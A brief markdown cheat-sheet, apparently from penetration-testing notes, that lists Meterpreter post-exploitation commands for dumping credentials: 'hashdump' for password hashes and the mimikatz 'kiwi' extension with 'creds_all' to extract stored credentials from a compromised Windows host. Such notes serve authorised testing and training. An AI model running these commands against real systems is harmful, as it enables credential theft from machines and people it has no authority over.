# meterpreter - mimikatz

```bash
# Built-in commands

meterpreter> hashdump

# mimikatz in meterpreter 

meterpreter> load kiwi
meterpreter> help kiwi
meterpreter> creds_all
```
